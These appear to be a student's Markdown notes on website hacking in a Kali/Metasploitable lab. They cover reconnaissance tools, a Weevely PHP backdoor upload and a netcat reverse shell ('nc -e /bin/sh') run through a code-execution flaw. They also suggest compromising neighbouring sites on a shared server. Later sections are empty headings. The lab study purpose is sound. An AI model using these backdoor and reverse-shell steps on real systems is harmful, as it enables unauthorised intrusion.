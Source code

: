 # Website Hacking

1. [Information Gathering](#information-gathering)

2. [File Vulnerabilities](#file-vulnerabilities)

3. [SQL Injection Vulnerabilities](#sql-injection-vulnerabilities)

4. [Cross Site Scripting Vulnerabilities](#cross-site-scripting-vulnerabilities)

5. [Discovering Vulnerabilities Automatically](#discovering-vulnerabilities-automatically)

For this section, the Metasploitable machine can be used with Kali, as we'll be making use of the web files stored in the former and attack it on using the latter. We can visit the Metasploitable website by simply using the IP address of the machine.

## Information Gathering

---

* [Whois Lookup](https://whois.domaintools.com/) can be used to find info about owner of target.

* [Netcraft](https://sitereport.netcraft.com/) shows the technologies used on the target.

* [Robtex](https://www.robtex.com/) shows comprehensive info about target.

* If we cannot hack our target website, we can hack other websites on the same server, to gain target access. To find websites on the same server, use Robtex DNS lookup (names pointing to same IP address).

* Knock can be used to find subdomains of target website:

```shell
knockpy google.com #shows subdomains of google.com
```

* Dirb can be used to find files & directories in target website:

```shell
man dirb #info about dirb

dirb http://10.0.2.5/mutillidae #uses default wordlist file to check directories

#this will give a list of discovered files for more info
```

## File Vulnerabilities

---

* File upload vulnerabilities allow users to upload executable files.

* Weevely can be used to generate PHP shells (backdoors) and gain access:

```shell
weevely generate 1234 /root/shell.php #generates a php shell with the password '1234'

#now the shell can be uploaded in the target website
#weevely can be used to interact with the uploaded file
#we have to give url of uploaded file and password

weevely http://10.0.2.5/dvwa/hackable/uploads/shell.php 1234 #this will give access to target file system
```

* Code execution vulnerabilities allow us to execute OS code on target server.

* Netcat can be used for this as it listens and connects computers:

```shell
nc -vv -l -p 8080 #using netcat to listen on port 8080

#now, we can try to connect from target server to our computer using the code execution vulnerability
nc -e /bin/sh 10.0.2.7 8080 #this command to be entered in the website
```

## SQL Injection Vulnerabilities

---

## Cross Site Scripting Vulnerabilities

---

## Discovering Vulnerabilities Automatically

---
